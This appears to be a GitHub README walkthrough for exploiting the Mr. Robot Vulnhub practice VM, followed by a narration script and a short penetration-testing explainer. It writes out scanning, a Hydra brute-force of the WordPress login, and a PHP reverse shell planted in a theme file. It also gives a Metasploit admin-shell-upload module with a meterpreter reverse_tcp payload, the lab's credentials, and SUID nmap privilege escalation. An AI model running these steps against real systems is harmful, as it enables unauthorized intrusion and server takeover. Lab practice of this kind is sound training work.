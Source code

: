 # Overview of the Exploit Process

## Step 1: Set Up Environment
- **Objective:** Prepare your Kali Linux attacker VM and the Mr. Robot Vulnhub target VM.
- **Actions:**
  - Install necessary software on Kali Linux:
    ```bash
    sudo apt update
    sudo apt install -y nmap gobuster hydra metasploit-framework
    ```

## Step 2: Network Scanning
- **Objective:** Identify the target's open ports and services.
- **Tools:** Nmap
- **Commands:**
    ```bash
    nmap -sS -sV -O 192.168.1.226
    ```

## Step 3: Enumeration
- **Objective:** Gather detailed information about the target's web applications and technologies.
- **Tools:** Gobuster, Wappalyzer
- **Commands:**
    ```bash
    gobuster dir -u http://192.168.1.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
  - Use Wappalyzer browser extension to identify web technologies used by the target site.

## Step 4: Vulnerabilities
- **Objective:** Identify vulnerabilities in the target's web applications and services.
- **Tools:** Nmap, Nikto
- **Commands:**
    ```bash
    nmap --script vuln 192.168.1.226
    nikto -h http://192.168.1.226
    ```

## Step 5: Brute-force
- **Objective:** Gain access to the target by brute-forcing login credentials.
- **Tools:** Hydra
- **Commands:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
    ```

## Step 6: Reverse Shell
- **Objective:** Gain remote access to the target system.
- **Tools:** PHP Reverse Shell, Metasploit

### Manual PHP Reverse Shell
1. **Upload a PHP Reverse Shell:**
   - Go to the WordPress admin panel at `http://192.168.1.226/wp-admin` and log in using the credentials found or brute-forced.
   - Navigate to Appearance > Theme Editor, select the `404.php` file, and insert the PHP reverse shell code from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

2. **Start a Netcat Listener:**
    ```bash
    nc -lvnp 4444
    ```

3. **Trigger the Reverse Shell:**
   - Visit the modified `404.php` file in your browser to trigger the reverse shell.
    ```bash
    http://192.168.1.226/wp-content/themes/[your-theme]/404.php
    ```

### Using Metasploit
1. **Start Metasploit:**
    ```bash
    msfconsole
    ```

2. **Select the Exploit Module:**
    ```bash
    use exploit/unix/webapp/wp_admin_shell_upload
    ```

3. **Set Required Options:**
    ```bash
    set RHOSTS 192.168.1.226
    set RPORT 80
    set USERNAME Elliot
    set PASSWORD ER28-0652
    set TARGETURI /wp-admin
    set LHOST 192.168.1.223
    set LPORT 4444
    set payload php/meterpreter/reverse_tcp
    set VERBOSE true
    ```

4. **Run the Exploit:**
    ```bash
    exploit
    ```

5. **Interacting with Meterpreter:**
    ```plaintext
    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

6. **Navigating the File System:**
    ```bash
    cd /home/robot
    ls -a
    cat key-1-of-3.txt
    cat key-2-of-3.txt
    ```

### Privilege Escalation (if needed)
- **Identify SUID binaries:**
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```

- **Exploit Nmap for Privilege Escalation:**
    ```bash
    /usr/local/bin/nmap --interactive
    !sh
    ```

- **Read the Final Key:**
    ```bash
    find / -name "key-3-of-3.txt" 2>/dev/null
    cat /root/key-3-of-3.txt
    ```

### Clean Up
1. **Remove Uploaded Files:**
    ```bash
    rm /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php
    rm -rf /wp-content/plugins/lCXSKnpNHP
    ```



Step 1: Set Up Environment
Step 2: Network Scanning : 
    - nmap
Step 3: Enumeration
    - Gobuster
    - Wappalyzer
Step 4: Vulnerabilities
    - nmap
    - nikto
Step 5: Brute-force
    - Python Scripts
    - Hydra
Step 6: Reverse Shell
    - PHP Reverse Shell
    - Metasploit
Report
Videos



```python
<speak>
    Hi, I'm Ivan, and today I'll show you how to exploit the Mr. Robot Vulnhub VM using Kali Linux.<break time="500ms"/>

    First, I set up the Kali Linux attacker VM and the Mr. Robot target VM, which hosts a WordPress site with three hidden keys.<break time="500ms"/> I used Nmap to scan the target IP for open ports and services.<break time="500ms"/>

    Next, I used Gobuster to find hidden directories and Wappalyzer to identify web technologies in use.<break time="500ms"/>

    Then, I looked for vulnerabilities using Nmap scripts and Nikto.<break time="500ms"/> After identifying potential weak points, I used Hydra to intelligently brute-force the WordPress admin login.<break time="500ms"/>

    Once I obtained the login credentials, I exploited the WordPress admin interface using Metasploit.<break time="500ms"/> By configuring the admin shell upload module and running the exploit, I gained a Meterpreter session, which allowed me to navigate the file system.<break time="500ms"/>

    Finally, I located and read the three hidden keys on the target system.<break time="500ms"/>

    And that's how you can exploit the Mr. Robot VM using Kali Linux to find all the hidden keys.<break time="500ms"/> Thanks for watching!
</speak>
```

- **Introduction:**
"Welcome to our comprehensive guide on penetration testing. Learn how to ethically hack and secure your systems in just six easy steps."

- **Step 1: Set Up Environment:**
"First, set up a controlled and isolated environment. This ensures your testing doesn't impact live systems and provides a safe space for your work."

- **Step 2: Network Scanning:**
"Next, perform network scanning using Nmap. Nmap helps identify live hosts, open ports, and available services, providing a map of your target network."

- **Step 3: Enumeration:**
"Now, move on to enumeration. Use Gobuster to brute-force directories and Wappalyzer to identify technologies used by the target website. This reveals valuable information about the target."

- **Step 4: Identifying Vulnerabilities:**
"Identify vulnerabilities with Nmap and Nikto. Nmap scripts can detect specific vulnerabilities, while Nikto scans for outdated software and potential security issues in web servers."

- **Step 5: Brute-force Attacks:**
"For brute-force attacks, utilize Python scripts and Hydra. These tools attempt to guess login credentials, exposing weak passwords and access points."

- **Step 6: Reverse Shell:**
"Finally, achieve a reverse shell using a PHP reverse shell script or Metasploit. This step provides control over the target system, allowing you to demonstrate the impact of vulnerabilities."

- **Conclusion:**
"Remember, penetration testing is a powerful tool for improving security. Always practice ethical hacking and responsible disclosure. Stay secure!"